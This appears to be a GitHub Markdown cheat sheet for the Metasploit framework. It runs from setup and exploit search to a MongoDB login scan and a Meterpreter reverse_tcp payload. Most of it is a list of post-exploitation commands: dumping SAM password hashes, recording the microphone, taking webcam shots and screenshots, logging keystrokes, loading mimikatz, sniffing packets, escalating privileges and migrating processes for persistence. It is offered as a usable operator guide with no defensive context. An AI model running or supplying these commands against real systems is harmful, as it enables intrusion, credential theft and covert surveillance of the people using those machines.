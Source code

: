 # MetaSploit

## Initialize
- Database settings: ```systemctl start postgresql``` & ```msfdb init```
- Run: ```msfconsole```  

## Workspace
- Create: ```workspace -a nasa``` 
- Delete: ```workspace -d nsa```
- Show: ```workspace```  
- Go to a workspace: ``` workspace nasa```

## Search
- Example
  - ```search type:exploit cve:2019```
  - ```search type:auxiliary cve:2019```
  - ```search platform:windows description:chrome```
  - ```search platform:android description:2019```
  - ```search platform:exploit description:samsung```
- Nmap
  - ```nmap -sV -oX output.xml 192.168.3.5```
  - ```searchsploit --nmap output.xml```

## Auxiliary
- Example
  - ```use  auxiliary/scanner/mongodb/mongodb_login```
  - ```set rhosts 192.168.1.0/24```
  - ```run```


## Exploit
- Change default payload
  - ```show payloads``` 
  - ```set payload windows/meterpreter/reverse_tcp```
- Change target
  - ```show targets```
  - ```set target 1```
- Add new exploit
  - Download exploit from *"exploit-db"* that contains *"This module requires metasploit"* in text & ```Class MetasploitModule``` in code
  - Add file to ```/root/.msf4/local```
  - Restart OS & Postgresql

## Meterprete
- Common
  - ```pwd``` & ```lpwd```
  - ```ls``` & ```lls```
  - ```download h.txt```
  - ```upload```
- Show SAM file
  - ```hashdump```
- Spy
  - ```record_mic -d 60```
  - ```webcam_snap```
  - ```screenshot```
  - ```arp```
  - ```netstat```
  - ```keyscan_start``` & ```keyscan_dump``` & ```keyscan_stop```
  - ```getuid```
- Mimikatz
  - ```load mimikatz```
  - ```help```
- Pcap
  - ```load sniffer```
  - ```help```
  - ```sniffer interfaces```
  - ```sniffer_start z packet_buffer 40```
  - ```sniffer_dump z test.pcap```
  - ```sniffer_stop```
- PE
  - ```getsystem```
- Process & Migrate
  - ```ps```
  - ```migrate 596```
    - 596 is PID of service.exe - DLL Hijack for persistant
